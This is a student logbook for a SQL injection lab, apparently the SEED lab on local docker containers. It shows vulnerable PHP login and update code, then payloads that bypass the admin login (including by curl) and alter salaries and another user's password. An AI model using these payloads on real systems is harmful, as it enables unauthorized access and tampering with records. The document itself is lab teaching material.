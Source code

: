 # SQL Injection

### Preparation

For this Lab we will be using 2 docker containers:

* One to host our web application
* One to host the database used by said application

Then we mapped the container's IP address to the URL of the web application by adding this line to the /etc/hosts file

```
10.9.0.5 www.seed-server.com
```

### The Web application

the web application, we'll be using has 2 types of users with different privilleges:

* Employee : can only manage their own profile information
* Administrator : can manage every employee's profile information

![Alt text](images\logbook8\image.png)


## Task 1: Get Familiar with SQL statements

After running dcbuild and dcup to get the docker containers running, we have access to the database created in the container 4a12f793dd50.

![Alt text](images\logbook8\image-1.png)

And are able to query the database as such:

![Alt text](images\logbook8\image-alice.png)


## Task 2: SQL Injection Attack On Select Statement

For this task our goal is to login into an employee account abusing the sql injection vulnerability on the website www.seed-server.com.

This page uses this snippet of code to authenticate users:

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);

// The following is Pseudo Code

if(id != NULL) {
if(name==’admin’) {
return All employees information;
} else if (name !=NULL){
return employee information;
}
} else {
Authentication Fails;
}

```

### Task 2.1: SQL Injection from webpage

For this task we need to login into the admin account without knowing their password.
We're assuming the username to be Admin.

Since the $input_uname user input is not handled properly, all there is to do is put a start comment line character after writing the username, this will comment the part of the query that would require a password to enter the account and therefore allowing us to access the admin account without the password

``` SQL
Admin' -- 
```
![Alt text](images\logbook8\image-2.1.png)


### Task 2.2: SQL Injection from control Line

For this task, we followed the same logic we used on Task 2.1. However, instead of writing the sql injection in the login form present in the web application we used the curl command to send the equivalent http request

``` 
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20--%20'

```

![Alt text](images\logbook8\image-2.2.png)

### Task 2.3: Append a new SQL statement

Since the php code is only expecting a query, it will run the sql code until it finds a ';' therefore making it impossible to append multiple SQL statements.

![Alt text](images\logbook8\image-2.3.png)

## Task 3

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

### Task 3.1 Change your own salary

For this task we want to change our own salary after being logged in.

All we need to do is introduce the salary = 999999 in the update statement, which we can do by closing the single quote after the nickname and adding an extra parameter to the update statement.

If we use the nickname input field to do that what we want to achieve is something like this nickname='**Alice',salary='10**', email= ...

We could also use  --  and comment the rest of the update statement, but that would change the salary of every employee in the enterprise, since it would ignore the ID = $id constraint.

Input:

```
Alice',salary='10
```
![Alt text](images\logbook8\image-3.1.png)


### Task 3.2 Change the boss's salary

This task is pretty much the same as the last one however for this one we will have to comment the rest of the update statement after adding the clause to make sure we're only reducing the salary of our boss.

Input:

```
Alice', salary=1 where Name='Admin' -- 
```

![Alt text](images\logbook8\image-3.2.png)

### Task 3.3 

This task follows the pattern of the last 2 however, this time we need to encode the password of our choice, beforehand.

Input:
```
Alice', password=sha1('FSI') where Name = 'Boby' -- 
```

![Alt text](images\logbook8\image-3.3.png)

